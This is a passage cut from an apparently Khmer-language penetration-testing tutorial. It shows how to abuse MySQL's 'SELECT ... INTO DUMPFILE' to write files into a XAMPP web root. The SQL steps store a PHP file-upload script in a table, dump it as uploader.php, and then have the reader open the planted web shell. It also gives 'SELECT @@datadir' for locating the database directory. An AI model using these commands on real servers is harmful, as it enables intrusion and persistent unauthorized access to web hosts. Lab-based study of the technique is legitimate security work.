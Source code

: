 និងកូដខាងក្រោមផងដែរ

{{< highlight sql "lineos=table" >}}
select * into dumpfile 'C:/xampp/htdocs/wkspace/up.php' from userform
{{< / highlight >}}

ដើម្បីស្វែងរកនូវទីតាំងរបស់ Database Webserver យើងអាចប្រើ Syntax មួយនេះ "SELECT @@datadir" នៅក្នុង SQL Query [SQL Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

ក្រោយមកចម្លងចូលកូដខាងក្រោមនៅក្នុង table user_upload

{{< highlight sql "lineos=table" >}}
INSERT INTO user_upload
VALUES (
"<?php $uploaddir = 'C:/xampp/htdocs/wkspace/'; $uploadfile = $uploaddir . basename($_FILES['userfile']['name']); if
 
(move_uploaded_file($_FILES['userfile']['tmp_name'],$uploadfile)) { print '<body bgcolor=black><center><h2 style=color:white;margin-top:150px;>Uploaded successully.</h2></center></body>'; } else { print '<body bgcolor=black><center><h2 style=color:red;margin-top:150px;>Uploaded Failed.</h2></center></body>'; } ?>"
)
{{< / highlight >}}

ជាចុងក្រោយចម្លងចូលនូវកូដខាងក្រោម៖

{{< highlight sql "lineos=table" >}}
select * into dumpfile 'C:/xampp/htdocs/wkspace/uploader.php' from user_upload
{{< / highlight >}}

ឥឡូវសាកល្បងបើកមើល Web Shell ដែលបានបង្ហោះរួចទៅតាមទីតាំងដែលបានបញ្ចូល ជាការស្រេច។
